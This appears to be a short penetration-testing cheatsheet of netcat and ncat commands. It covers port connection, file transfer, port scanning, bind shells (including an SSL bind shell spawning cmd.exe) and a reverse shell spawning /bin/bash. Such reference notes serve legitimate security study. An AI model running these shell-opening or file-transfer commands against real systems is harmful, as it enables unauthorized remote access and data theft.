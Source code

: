 ```yaml
---
description: Hacking command list
---
```


# Command cheatsheet

### Netcat

Connect to port

```text
nc -nv 192.168.1.10 110
```

Bind port and connect to:

```text
nc -nlvp 4444
nc -nv 192.168.1.10 4444
```

Copy files

```text
nc -nlvp 4444 > dest-file
nc -nv 192.168.1.10 4444 < local-file
```

Bind shell and remote execution

```text
nc -nlvp 4444 -e cmd.exe
nc -nv 192.168.1.10 4444
```

Reverse shell

```text
nc -nlvp 4444
nc -nv 192.168.1.10 4444 -e /bin/bash
```

Scan ports

```text
nc -nvv -w 1 -z 192.168.1.10 3388-3390
```

### Ncat

Bind shell SSL with allow IP address

```text
ncat --exec cmd.exe --allow 192.168.1.11 -vnl 4444 --ssl
ncat -v 192.168.1.10 4444 --ssl
```
